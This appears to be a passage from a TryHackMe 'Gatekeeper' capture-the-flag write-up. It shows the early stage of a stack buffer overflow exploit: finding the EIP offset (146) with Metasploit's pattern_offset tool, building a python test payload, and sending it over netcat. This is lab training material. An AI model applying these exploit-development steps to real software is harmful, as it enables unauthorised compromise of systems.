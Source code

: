 Once the program is broken. We can see in the EIP the pattern we need to find to control the offset.

![Immunity EIP](/images/THM/gatekeeper/Captura15.PNG)

With the EIP value now we search for the offset.

We can see the offset is **146**.

```sh
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2000 -q 39654138
```

![pattern offset](/images/THM/gatekeeper/Captura16.PNG)

Let's generate with python another pattern to verify that we control the EIP.

```sh
python3 -c "print('A'*146+'B'*4+'C'*100)"
```

![python pattern](/images/THM/gatekeeper/Captura17.PNG)

```sh
nc <Ip> <Port>
```

![nc python pattern](/images/THM/gatekeeper/Captura18.PNG)
